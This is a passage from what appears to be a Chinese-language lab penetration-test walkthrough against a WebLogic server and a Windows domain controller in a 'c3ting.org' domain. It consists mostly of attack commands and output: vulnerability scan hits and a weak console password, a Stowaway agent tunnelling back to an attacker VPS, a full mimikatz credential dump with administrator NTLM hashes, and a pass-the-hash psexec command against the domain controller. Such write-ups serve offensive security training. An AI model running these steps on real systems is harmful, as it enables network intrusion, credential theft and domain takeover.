NetBios 192.168.77.25   weblogic.c3ting.org                 Windows Server 2012 R2 Datacenter 9600
[*] NetInfo 
[*]192.168.77.250
   [->]WIN-LAVRSND6J6N
   [->]192.168.77.250
[*] OsInfo 192.168.77.250   (Windows Server 2012 R2 Standard 9600)
NetBios 192.168.77.250  [+] DC:WIN-LAVRSND6J6N.c3ting.org      Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.77.25:7001 code:404 len:1164   title:Error 404--Not Found
[+] InfoScan http://192.168.77.25:7001 [weblogic] 
[+] PocScan http://192.168.77.25:7001 poc-yaml-weblogic-cve-2019-2725 v12
[+] PocScan http://192.168.77.25:7001/console/j_security_check poc-yaml-weblogic-console-weak [{username weblogic} {password weblogic123} {payload UTF-8}]
[*] WebTitle http://192.168.77.25:7001 code:404 len:1164   title:Error 404--Not Found
[+] InfoScan http://192.168.77.25:7001 [weblogic] 
[+] PocScan http://192.168.77.25:7001 poc-yaml-weblogic-cve-2019-2725 v12
[+] PocScan http://192.168.77.25:7001/console/j_security_check poc-yaml-weblogic-console-weak [{username weblogic} {password weblogic123} {payload UTF-8}]
[+] PocScan http://192.168.77.25:7001 poc-yaml-weblogic-cve-2020-14750 
[+] PocScan http://192.168.77.25:7001 poc-yaml-weblogic-cve-2020-14750
```

发现192.168.77.250是域控

## 杀软信息


# Stowaway挂第三层代理

vps

```
(node 1) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 10000
```

目标机

```
windows_x64_agent.exe -c 192.168.81.22:10000 -s 123 --reconnect 8
```

  


## mimikatz抓取hash

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

424     {0;000003e7} 0 D 39176          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,20p)       Primary
 -> Impersonated !
 * Process Token : {0;00083781} 2 D 1394614     C3TING\Administrator    S-1-5-21-495363149-4124706654-1579529781-500    (17g,23p)       Primary
 * Thread Token  : {0;000003e7} 0 D 1412018     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,20p)       Impersonation (Delegation)

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 375046 (00000000:0005b906)
Session           : Interactive from 2
User Name         : weblogic
Domain            : C3TING
Logon Server      : WIN-1SJG2BFF54E
Logon Time        : 2024/6/10 21:31:50
SID               : S-1-5-21-495363149-4124706654-1579529781-1103
        msv :
         [00000003] Primary
         * Username : weblogic
         * Domain   : C3TING
         * NTLM     : dee6489dfcd545e5a4b452fc9da06a0f
         * SHA1     : f959b907a86ef967bcbed9dc24954695ecbe2fa8
         [00010000] CredentialKeys
         * NTLM     : dee6489dfcd545e5a4b452fc9da06a0f
         * SHA1     : f959b907a86ef967bcbed9dc24954695ecbe2fa8
        tspkg :
        wdigest :
         * Username : weblogic
         * Domain   : C3TING
         * Password : (null)
        kerberos :
         * Username : weblogic
         * Domain   : C3TING.ORG
         * Password : (null)
        ssp :   KO
        credman :

Authentication Id : 0 ; 350972 (00000000:00055afc)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2024/6/10 21:29:25
SID               : S-1-5-90-2
        msv :
         [00000003] Primary
         * Username : WEBLOGIC$
         * Domain   : C3TING
         * NTLM     : 46b27275c57726a026781f3ed621b4cb
         * SHA1     : 09c31622476ba96b160a234c14707eba5b7dbc2b
        tspkg :
        wdigest :
         * Username : WEBLOGIC$
         * Domain   : C3TING
         * Password : (null)
        kerberos :
         * Username : WEBLOGIC$
         * Domain   : c3ting.org
         * Password : _okY.Qi_a.>dd32F:z2UKy.O*x n5E9,5Rl_%O&A0;"J:'#pj3Z>NgX8/Us1*h"3lc/Sa%.bqP9lQR)nU1B'>aeR%no9-O3 A[<p W`WRu&>zncfT2'8L]Ez
        ssp :   KO
        credman :

Authentication Id : 0 ; 350948 (00000000:00055ae4)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2024/6/10 21:29:25
SID               : S-1-5-90-2
        msv :
         [00000003] Primary
         * Username : WEBLOGIC$
         * Domain   : C3TING
         * NTLM     : 46b27275c57726a026781f3ed621b4cb
         * SHA1     : 09c31622476ba96b160a234c14707eba5b7dbc2b
        tspkg :
        wdigest :
         * Username : WEBLOGIC$
         * Domain   : C3TING
         * Password : (null)
        kerberos :
         * Username : WEBLOGIC$
         * Domain   : c3ting.org
         * Password : _okY.Qi_a.>dd32F:z2UKy.O*x n5E9,5Rl_%O&A0;"J:'#pj3Z>NgX8/Us1*h"3lc/Sa%.bqP9lQR)nU1B'>aeR%no9-O3 A[<p W`WRu&>zncfT2'8L]Ez
        ssp :   KO
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WEBLOGIC$
Domain            : C3TING
Logon Server      : (null)
Logon Time        : 2024/6/10 21:26:59
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : WEBLOGIC$
         * Domain   : C3TING
         * NTLM     : 46b27275c57726a026781f3ed621b4cb
         * SHA1     : 09c31622476ba96b160a234c14707eba5b7dbc2b
        tspkg :
        wdigest :
         * Username : WEBLOGIC$
         * Domain   : C3TING
         * Password : (null)
        kerberos :
         * Username : weblogic$
         * Domain   : C3TING.ORG
         * Password : (null)
        ssp :   KO
        credman :

Authentication Id : 0 ; 43688 (00000000:0000aaa8)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2024/6/10 21:26:53
SID               : 
        msv :
         [00000003] Primary
         * Username : WEBLOGIC$
         * Domain   : C3TING
         * NTLM     : 46b27275c57726a026781f3ed621b4cb
         * SHA1     : 09c31622476ba96b160a234c14707eba5b7dbc2b
        tspkg :
        wdigest :
        kerberos :
        ssp :   KO
        credman :

Authentication Id : 0 ; 538497 (00000000:00083781)
Session           : CachedInteractive from 2
User Name         : Administrator
Domain            : C3TING
Logon Server      : WIN-1SJG2BFF54E
Logon Time        : 2024/6/10 21:33:21
SID               : S-1-5-21-495363149-4124706654-1579529781-500
        msv :
         [00010000] CredentialKeys
         * NTLM     : 7ab183888ecafcccf897c4a5a59c8568
         * SHA1     : 65e4580b288c7c555e21f70d81dd6e0b72397ed9
         [00000003] Primary
         * Username : Administrator
         * Domain   : C3TING
         * NTLM     : 7ab183888ecafcccf897c4a5a59c8568
         * SHA1     : 65e4580b288c7c555e21f70d81dd6e0b72397ed9
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : C3TING
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : C3TING.ORG
         * Password : (null)
        ssp :   KO
        credman :

Authentication Id : 0 ; 496531 (00000000:00079393)
Session           : Interactive from 2
User Name         : Administrator
Domain            : C3TING
Logon Server      : WIN-1SJG2BFF54E
Logon Time        : 2024/6/10 21:32:46
SID               : S-1-5-21-495363149-4124706654-1579529781-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : C3TING
         * NTLM     : 7ab183888ecafcccf897c4a5a59c8568
         * SHA1     : 65e4580b288c7c555e21f70d81dd6e0b72397ed9
         [00010000] CredentialKeys
         * NTLM     : 7ab183888ecafcccf897c4a5a59c8568
         * SHA1     : 65e4580b288c7c555e21f70d81dd6e0b72397ed9
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : C3TING
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : C3TING.ORG
         * Password : (null)
        ssp :   KO
        credman :

Authentication Id : 0 ; 264033 (00000000:00040761)
Session           : Interactive from 1
User Name         : Administrator
Domain            : WEBLOGIC
Logon Server      : WEBLOGIC
Logon Time        : 2024/6/10 21:28:30
SID               : S-1-5-21-2004965046-3923418856-647414055-500
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :   KO
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2024/6/10 21:27:01
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :   KO
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WEBLOGIC$
Domain            : C3TING
Logon Server      : (null)
Logon Time        : 2024/6/10 21:26:53
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WEBLOGIC$
         * Domain   : C3TING
         * Password : (null)
        kerberos :
         * Username : weblogic$
         * Domain   : C3TING.ORG
         * Password : (null)
        ssp :   KO
        credman :
```

## PTH

```
proxychains4 python3 psexec.py -hashes :7ab183888ecafcccf897c4a5a59c8568 c3ting.org/administrator@192.168.77.250
```


